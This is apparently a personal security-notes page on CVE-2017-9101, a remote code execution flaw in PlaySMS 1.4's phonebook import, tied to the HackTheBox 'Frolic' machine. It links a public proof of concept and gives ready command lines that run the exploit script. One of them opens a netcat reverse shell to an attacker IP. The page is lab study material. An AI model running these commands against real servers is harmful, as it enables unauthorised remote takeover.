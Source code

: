 ```yaml
---
description: PlaySMS 1.4 - Remote Code Execution
---
```


# CVE-2017-9101

#### <mark style="color:yellow;">**PlaySMS 1.4**</mark> <mark style="color:purple;">-</mark> <mark style="color:red;">Remote Code Execution</mark> <mark style="color:purple;">-</mark> <mark style="color:orange;">**`PHP`**</mark> <mark style="color:purple;">**-**</mark> <mark style="color:blue;">**API**</mark>

<mark style="color:purple;">**Vulnerability -->**</mark> <mark style="color:yellow;">**`import.php`**</mark>&#x20;

<mark style="color:yellow;">**`import.php`**</mark> <mark style="color:purple;">(aka the</mark> <mark style="color:yellow;">**Phonebook**</mark> <mark style="color:purple;">import feature) in</mark> <mark style="color:yellow;">**PlaySMS 1.4**</mark> <mark style="color:purple;">allows</mark> <mark style="color:red;">remote code execution</mark> <mark style="color:purple;">via vectors involving the</mark> <mark style="color:red;">**`User-Agent HTTP`**</mark> <mark style="color:purple;">header and</mark> <mark style="color:orange;">**`PHP`**</mark> <mark style="color:purple;">code in the name of a file.</mark>

<mark style="color:purple;">**Score:**</mark>**&#x20;**<mark style="color:blue;">**CVSS v2.0**</mark><mark style="color:purple;">**:**</mark>**&#x20;**<mark style="color:yellow;">**`7.5`**</mark>**&#x20;**<mark style="color:purple;">**//**</mark>**&#x20;**<mark style="color:blue;">**CVSS v3.x**</mark><mark style="color:purple;">**:**</mark>**&#x20;**<mark style="color:yellow;">**`9.8`**</mark>

<mark style="color:purple;">**Shows on:**</mark>&#x20;

* <mark style="color:green;">**HTB-Frolic**</mark>

### <mark style="color:purple;">**POC:**</mark>

{% embed url="https://github.com/jasperla/CVE-2017-9101" %}

```bash
#Reverse Shell

python3 playsmshell.py --password 'idkwhatispass' --url 'http://forlic.htb:9999/playsms/index.php?app=main&inc=feature_phonebook&op=phonebook_list' -c '/bin/sh -i 2>&1|nc 10.10.14.11 4444'

#SUID Enumeration
python3 playsmshell.py --password 'idkwhatispass' --url 'http://forlic.htb:9999/playsms/index.php?app=main&inc=feature_phonebook&op=phonebook_list' -c 'find / -name user.txt 2>/dev/null'

```

### <mark style="color:purple;">**Resources:**</mark>

{% embed url="https://www.exploit-db.com/exploits/42044" %}

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2017-9101" %}
